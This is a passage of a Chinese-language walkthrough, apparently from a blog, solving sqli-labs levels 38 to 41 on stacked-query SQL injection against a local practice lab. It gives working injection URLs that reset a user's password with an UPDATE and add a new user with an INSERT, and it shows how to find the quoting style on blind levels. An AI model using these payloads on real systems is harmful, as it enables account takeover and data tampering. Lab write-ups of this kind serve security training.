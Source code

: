 oracle 不能使用堆叠注入,  当有两条语句在同一行时, 直接报错。无效字符。后面的就不往下继续尝试了。


## ***Less-38 stacked Query***

id=1时，

![USbCfx.png](https://s1.ax1x.com/2020/07/05/USbCfx.png)

利用前面的知识可判断此语句闭合方式。我们可以利用堆叠注入修改他的密码。

`http://192.168.2.222/sqli-labs-master/Less-38/?id=1' ;update users set password='123456' where username='Dumb';--+`发现密码已经被修改了。

![USbNAs.png](https://s1.ax1x.com/2020/07/05/USbNAs.png)

## ***Less-39 stacked Query Intiger type***


`http://192.168.2.222/sqli-labs-master/Less-39/?id=1'`根据报错就可以看出是数字型注入。

操作和上关一样。这次我们来创建一个新用户吧.
`http://192.168.2.222/sqli-labs-master/Less-39/?id=1;insert into users values(50,'sqli','test');`

看到，成功了

![USbj8P.png](https://s1.ax1x.com/2020/07/05/USbj8P.png)

## ***Less-40 stacked Query String type Blind***

关闭了报错提示，但是我们依然可以根据页面的变化判断闭合方式。

`http://192.168.2.222/sqli-labs-master/Less-40/?id=1'`，页面异常，说明包裹参数的有单引号，

注释掉后面的，`http://192.168.2.222/sqli-labs-master/Less-40/?id=1' --+`,页面还没有正常回显，说明包裹参数的还有其他符号。

在加一个括号，`http://192.168.2.222/sqli-labs-master/Less-40/?id=1') --+`,页面正常，说明闭合方式为单引号括号。`')`

其他操作和前面两关一样。

## ***Less-41 stacked Query Intiger type blind***

测试单引号双引号等都回显不正常，说明为数字型注入。

操作和39关一样。